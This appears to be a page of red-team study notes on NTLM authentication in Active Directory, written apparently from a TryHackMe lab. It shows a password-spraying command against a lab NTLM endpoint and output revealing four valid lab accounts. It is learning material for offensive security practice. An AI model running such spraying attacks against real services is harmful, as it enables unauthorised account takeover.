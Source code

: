# NTLM authenticated services

New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD. 
NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM. This authentication 
mechanism is used by the services on a network. And some services that use NetNTLM may also be exposed to the 
internet. Examples:

* Internally-hosted Exchange (Mail) servers that expose an Outlook Web App (OWA) login portal.
* Remote Desktop Protocol (RDP) service of a server being exposed to the internet.
* Exposed VPN endpoints that were integrated with AD.
* Web applications that are internet-facing and make use of NetNTLM.

| ![Downgrade to ntlm](../../_static/images/outlook-ntlm-downgrade.png)
|:--:|
| The user is now either granted access or denied access, authorisation is performed on the <br>Exchange server with consultation of the msg.target.com Domain Controller. |

NTLM is generally considered insecure because it uses outdated cryptography that is 
[vulnerable to several modes of attacks](red-network:docs/ad/vulns). NTLM is also vulnerable to 
pass-the-hash and brute-force attacks.

## Password spraying

Most AD environments have account lockout configured, we won't be able to run a full brute-force attack. Instead, we 
need to perform a password spraying attack.

We could use tools such as Hydra to assist with the password spraying attack. The room uses a script named 
`ntlm_passwordspray.py`.

The core function takes a suggested password and a URL to target as input and attempts to authenticate to the URL 
with each username in the textfile. By monitoring the differences in HTTP response codes from the application, we 
can determine if the credential pair is valid or not. If the credential pair is valid, the application responds 
with a 200 HTTP (OK) code. If the pair is invalid, the application returns a 401 HTTP (Unauthorised) code. 

The parameters:

* `userfile` - Textfile containing usernames (`usernames.txt`)
* `fqdn` - Fully qualified domain name associated with the organisation we are attacking (`za.tryhackme.com`)
* `password` - The password we want to use for our spraying attack (`Changeme123`)
* `attackurl` - The URL of the application that supports Windows Authentication (`http://ntlmauth.za.tryhackme.com`)

```text
python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
```

Results:

```text
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```
